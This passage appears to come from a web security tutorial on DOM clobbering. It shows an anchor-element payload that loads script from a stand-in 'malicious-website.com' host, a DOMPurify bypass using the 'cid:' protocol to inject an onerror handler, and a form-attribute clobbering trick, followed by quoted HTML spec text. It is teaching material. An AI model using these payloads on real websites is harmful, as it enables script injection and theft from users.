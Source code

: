 To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

{% code overflow="wrap" %}
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```
{% endcode %}

Injecting that data **`window.someObject.url`** is going to be `href=//malicious-website.com/malicious.js`

**Trick**: **`DOMPurify`** allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like **`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`** will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.

Another common technique consists on using **`form`** element. Some client-side libraries will go through the attributes of the created form element to sanitised it. But, if you create an `input` inside the form with `id=attributes` , you will **clobber the attributes property** and the sanitizer **won't** be able to go through the **real attributes**.

You can [**find an example of this type of clobbering in this CTF writeup**](iframes-in-xss-and-csp.md#iframes-in-sop-2).

## Clobbering document object

According to the documentation it's possible to overwrite attributes of the document object using DOM Clobbering:

> The [Document](https://html.spec.whatwg.org/multipage/dom.html#document) interface [supports named properties](https://webidl.spec.whatwg.org/#dfn-support-named-properties). The [supported property names](https://webidl.spec.whatwg.org/#dfn-supported-property-names) of a [Document](https://html.spec.whatwg.org/multipage/dom.html#document) object document at any moment consist of the following, in [tree order](https://dom.spec.whatwg.org/#concept-tree-order) according to the element that contributed them, ignoring later duplicates, and with values from [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) attributes coming before values from name attributes when the same element contributes both:
>
> \- The value of the name content attribute for all [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [embed](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-embed-element), [form](https://html.spec.whatwg.org/multipage/forms.html#the-form-element), [iframe](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element), [img](https://html.spec.whatwg.org/multipage/embedded-content.html#the-img-element), and [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [object](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-object-element) elements that have a non-empty name content attribute and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root);\
> \
> \- The value of the [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute for all [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [object](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-object-element) elements that have a non-empty [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root);\
> \
> \- The value of the [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute for all [img](https://html.spec.whatwg.org/multipage/embedded-content.html#the-img-element) elements that have both a non-empty [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute and a non-empty name content attribute, and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root).
